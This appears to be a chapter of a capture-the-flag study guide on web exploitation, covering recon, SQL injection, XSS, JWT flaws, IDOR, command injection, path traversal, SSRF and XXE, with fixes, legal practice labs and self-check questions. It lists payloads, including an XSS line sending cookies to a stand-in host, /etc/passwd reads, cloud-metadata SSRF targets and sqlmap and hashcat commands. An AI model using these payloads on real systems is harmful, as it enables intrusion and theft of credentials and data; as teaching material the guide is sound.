







# 3. Web exploitation

Web challenges are the most common CTF category and the best-documented. The skill is **seeing what the server does with your input**.

## 3.1 How the web works (just enough)



| Concept | Meaning |
|---|---|
| URL | scheme://host:port/path?query#fragment |
| Method | GET (read), POST (send), PUT/DELETE (change), others |
| Status | 200 ok · 301/302 redirect · 401/403 denied · 404 missing · 500 server error |
| Headers | metadata: Cookie, Host, User-Agent, Content-Type, Authorization |
| Cookie | small value the browser sends with every request (often a session id) |
| Same-origin | a script can only read responses from its own origin |

Command-line view (always try this before the browser):

```bash
curl -i https://site/                    # response headers + body
curl -i -X POST -d 'user=a&pass=b' https://site/login
curl -s -H 'Cookie: session=abc' https://site/admin
curl -sI https://site/                   # headers only
```

## 3.2 Method



1. **Map:** click everything; read the HTML and JS; check `/robots.txt`, `/sitemap.xml`, `/.git/`, `/backup`, `/admin`; look at source maps.
2. **List inputs:** query params, form fields, headers, cookies, JSON keys, file uploads.
3. **Test each input class** against the vulnerabilities below.
4. **Prove it with the smallest payload**; then escalate.
5. **Chain**: a small leak (user list) + a weak control (password reset) = takeover.

Recon tools: browser devtools (Network, Sources), `curl`, `ffuf`/`gobuster`, Burp Suite (proxy + repeater).

```bash
ffuf -u https://site/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,403
```

## 3.3 SQL injection



**Why it happens:** the app builds a query by pasting your text into it.

| Goal | Payload idea |
|---|---|
| detect | `'` (error) · `' OR '1'='1` |
| bypass login | `admin' --` · `' OR 1=1 --` |
| column count | `' ORDER BY 1 --`, `2`, `3` … until error |
| find text column | `' UNION SELECT 'a',NULL --` |
| read data | `' UNION SELECT username,password FROM users --` |
| DB version | `@@version` (MySQL/MSSQL), `version()` (Postgres), `sqlite_version()` |
| list tables | `information_schema.tables` (MySQL/Postgres), `sqlite_master` (SQLite) |

**Blind SQLi:** no output, so ask yes/no questions.

```text
Boolean:  ' AND (SELECT SUBSTR(password,1,1) FROM users LIMIT 1)='a' --   → page differs?
Time:     ' AND IF(1=1,SLEEP(5),0) --                                     → 5 s delay?
```

Automate only after you understand it: `sqlmap -u "https://site/item?id=1" --batch --dump`.

**Fix (so you know what to look for in source):** parameterised queries/prepared statements.

## 3.4 Cross-site scripting (XSS)



Payloads by context:

| Where your input lands | Try |
|---|---|
| HTML body | `<script>alert(1)</script>` · `` |
| attribute | `" onmouseover="alert(1)` · `"><svg onload=alert(1)>` |
| inside a JS string | `';alert(1);//` |
| URL / href | `javascript:alert(1)` |
| filtered | case changes, other tags/events, encodings |

Exfiltrate (stored XSS against an admin bot): `fetch('https://YOU/?c='+document.cookie)`. Defences: output encoding, CSP, `HttpOnly` cookies.

## 3.5 Authentication, sessions and JWT



| Weakness | Test |
|---|---|
| default / weak creds | admin/admin, vendor defaults |
| username enumeration | different messages/timing for valid vs invalid user |
| no rate limit | brute force with `ffuf`/`hydra` |
| predictable reset token | sequential/time-based tokens |
| session fixation / weak id | sequential session ids |
| JWT `alg:none` | change header to none, drop signature |
| JWT weak secret | `hashcat -m 16500 jwt.txt rockyou.txt` |
| trusting payload | change `"role":"user"` to admin when the signature isn't verified |

Decode a JWT quickly:

```bash
echo 'PAYLOAD_PART' | tr '_-' '/+' | base64 -d 2>/dev/null
```

## 3.6 Access control: IDOR and privilege



Check every request that contains an id (URL, JSON, cookie). Change it. Also try:

- another **method** (GET vs POST vs PUT) on the same path,
- adding admin-only parameters (`isAdmin=true`, mass assignment),
- **forced browsing** to `/admin`, `/api/admin/users`,
- different content types (JSON vs form).

## 3.7 Injection into the OS and files

| Bug | Sign | Payload |
|---|---|---|
| Command injection | app runs `ping $host` | `127.0.0.1; id` · `$(id)` · `` `id` `` · `\| id` |
| Path traversal / LFI | `?file=report.pdf` | `../../../etc/passwd` · `....//....//etc/passwd` |
| PHP wrappers | `include($_GET[p])` | `php://filter/convert.base64-encode/resource=index.php` |
| File upload | accepts "images" | `.php`, double extension, MIME/magic tricks, `.htaccess` |
| SSTI | `{{7*7}}` renders `49` | Jinja2: `{{config}}`, `{{''.__class__.__mro__...}}` |
| XXE | XML input | `<!ENTITY x SYSTEM "file:///etc/passwd">` |
| Deserialization | pickled/serialized cookie | craft an object that runs code on load |

## 3.8 SSRF



When an app fetches a URL you supply (image import, webhook, PDF render), ask it to fetch **internal** things.

```text
http://127.0.0.1:8080/admin
http://localhost/server-status
http://169.254.169.254/latest/meta-data/        (cloud metadata)
file:///etc/passwd
```

Bypasses: `127.1`, `0x7f000001`, `localhost.attacker.com` (DNS → 127.0.0.1), redirects, URL parsing tricks (`http://expected@evil`).

## 3.9 Putting it together: a worked scenario

*The app has `/login`, `/profile?id=`, and `/export?url=`.*

1. `/robots.txt` reveals `/backup`; `/backup/db.sqlite` is downloadable.
2. `strings`/`sqlite3` on the DB exposes a hashed admin password; crack with hashcat.
3. Log in; `/profile?id=` is an IDOR that shows another user's API key.
4. `/export?url=` is SSRF; fetch `http://127.0.0.1:8081/internal` to read the flag.

Each step is a small, cheap observation. This is the "chain" pattern.

## 3.10 Practice plan

| Order | Practice | Source |
|---|---|---|
| 1 | SQLi labs (all apprentice + practitioner) | PortSwigger |
| 2 | Auth + access control | PortSwigger |
| 3 | XSS contexts | PortSwigger, Juice Shop |
| 4 | Command injection, path traversal, upload | PortSwigger |
| 5 | SSRF, XXE, SSTI | PortSwigger |
| 6 | Natas 0-20 | OverTheWire |
| 7 | Juice Shop 1-4★ | OWASP |

## 3.11 Check yourself

1. What are three places user input enters a web request besides the URL?
2. Why does `' OR 1=1 --` work, and what is the fix?
3. How do you tell if a parameter reaches a template engine?
4. Describe SSRF in two sentences and name two internal targets.
5. What makes an IDOR different from missing authentication?
